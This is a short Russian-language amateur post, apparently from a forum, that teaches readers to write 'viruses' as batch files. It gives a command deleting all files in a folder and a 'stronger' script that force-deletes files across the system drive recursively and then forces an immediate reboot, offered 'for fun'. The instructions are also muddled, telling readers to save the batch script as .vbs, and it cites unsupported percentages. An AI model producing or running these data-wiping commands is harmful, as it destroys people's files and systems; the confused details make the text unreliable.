


ВИРУСЫ
Привет все мы знаем что вирус на компьюторе простая штука .У 40% а у остальных 60% есть анти вирус.
Но я тебя всему научу (я против взлома это просто ради забавы )
Виды вирусов : exe vbs bat которые я знаю
Вот ваш первый вирус del *.* удалять всё , вот это *.* что мы удаляем
то есть всё

Записываем как bat
Вот ваш более сильный вирус
@echo off
del %systemdrive%*.* /f /s /q
shutdown -r -f -t 00
записываем как vbs
